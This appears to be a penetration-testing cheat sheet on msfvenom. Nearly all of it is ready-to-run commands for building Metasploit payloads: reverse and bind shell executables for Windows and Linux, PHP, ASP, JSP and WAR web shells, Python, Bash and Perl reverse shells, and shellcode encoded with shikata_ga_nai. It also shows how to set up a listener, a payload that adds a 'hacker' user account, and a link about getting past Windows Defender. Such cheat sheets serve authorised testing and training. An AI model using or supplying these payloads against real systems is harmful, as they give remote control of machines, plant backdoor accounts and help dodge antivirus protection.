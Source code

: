 # Msfvenom

### Creating a payload

* msfvenom -p \[payload] LHOST=\[listeninghost] LPORT=\[listeningport]

To view list of payloads: msfvenom -l payloads To view the payload options: msfvenom -p windows/x64/meterpreter\_reverse\_tcp --list-options

### Creating a payload with encoding

* msfvenom -p \[payload] -e \[encoder] -f \[formattype] -i \[iteration] \<var=value> > outputfile

### Creating a payload using a template

* msfvenom -p \[payload] \<var=value> -x \[template] -f \[formattype] > outputfile

### Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

### Windows Payloads

* msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
* msfvenom -p windows/meterpreter\_reverse\_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
* msfvenom -p windows/meterpreter/bind\_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
* msfvenom -p windows/shell/reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
* msfvenom -p windows/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

### Linux Payloads

* msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
* msfvenom -p linux/x86/meterpreter/bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
* msfvenom -p linux/x64/shell\_bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
* msfvenom -p linux/x64/shell\_reverse\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom:

* msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

### Web Payloads

PHP

* msfvenom -p php/meterpreter\_reverse\_tcp LHOST= LPORT= -f raw > shell.php cat shell.php | pbcopy && echo '\<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

* msfvenom -p windows/meterpreter/reverse\_tcp LHOST= LPORT= -f asp > shell.asp

JSP

* msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST= LPORT= -f raw > shell.jsp

WAR

* msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST= LPORT= -f war > shell.war

### Scripting Payloads

Python

* msfvenom -p cmd/unix/reverse\_python LHOST= LPORT= -f raw > shell.py

Bash

* msfvenom -p cmd/unix/reverse\_bash LHOST= LPORT= -f raw > shell.sh

Perl

* msfvenom -p cmd/unix/reverse\_perl LHOST= LPORT= -f raw > shell.pl

Creating an Msfvenom Payload with an encoder while removing bad charecters:

* msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\_ga\_nai -b "\x0A\x0D"

### Resources:

* https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/
